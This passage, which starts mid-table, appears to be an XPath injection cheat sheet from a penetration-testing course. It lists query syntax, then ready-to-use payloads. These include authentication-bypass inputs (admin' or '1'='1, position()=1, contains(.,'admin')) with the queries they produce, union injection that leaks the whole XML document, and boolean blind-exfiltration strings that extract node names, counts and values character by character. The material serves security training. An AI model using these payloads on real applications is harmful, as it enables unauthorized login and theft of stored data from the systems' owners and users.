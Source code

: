|`and`|Logical And|
|`mod`|Modulus|

Wildcards:

|Query|Explanation|
|---|---|
|`node()`|Matches any node|
|`*`|Matches any `element` node|
|`@*`|Matches any `attribute` node|

Union:

|Query|Explanation|
|---|---|
|<code>//module[tier=2]/title/text() &#124; //module[tier=3]/title/text()</code>|Select the title of all modules in tiers `2` and `3`|


#### Authentication Bypass

|Description|Username|Query|
|---|---|---|
|Regular Authentication|`htb-stdnt`|`/users/user[username/text()='htb-stdnt' and password/text()='295362c2618a05ba3899904a6a3f5bc0']`|
|Bypass Authentication with known username|`admin' or '1'='1`|`/users/user[username/text()='admin' or '1'='1' and password/text()='21232f297a57a5a743894a0e4a801fc3']`|
|Bypass Authentication by position|`' or position()=1 or '`|`/users/user[username/text()='' or position()=1 or '' and password/text()='21232f297a57a5a743894a0e4a801fc3']`|
|Bypass Authentication by substring|`' or contains(.,'admin') or '`|`/users/user[username/text()='' or contains(.,'admin') or '' and password/text()='21232f297a57a5a743894a0e4a801fc3']`|

#### Data Exfiltration

Unrestricted:
- Leak entire XML document via union injection: `| //text()`

Restricted:
- Determine schema depth via chain of wildcards `/*[1]`
- iterate through XML schema by increasing the indices to exfiltrate the entire document step-by-step

#### Blind Data Exfiltration

|Description|Payload|Query|
|---|---|---|
|Exfiltrating Node Name's Length|`invalid' or string-length(name(/*[1]))=1 and '1'='1`|`/users/user[username='invalid' or string-length(name(/*[1]))=1 and '1'='1']`|
|Exfiltrating Node Name|`invalid' or substring(name(/*[1]),1,1)='a' and '1'='1`|`/users/user[username='invalid' or substring(name(/*[1]),1,1)='a' and '1'='1']`|
|Exfiltrating Number of Child Nodes|`invalid' or count(/*[1]/*)=1 and '1'='1`|`/users/user[username='invalid' or count(/*[1]/*)=1 and '1'='1']`|
|Exfiltrating Value Length|`invalid' or string-length(/users/user[1]/username)=1 and '1'='1`|`/users/user[username='invalid' or string-length(/users/user[1]/username)=1 and '1'='1']`|
|Exfiltrating Value|`invalid' or substring(/users/user[1]/username,1,1)='a' and '1'='1`|`/users/user[username='invalid' or substring(/users/user[1]/username,1,1)='a' and '1'='1']`|
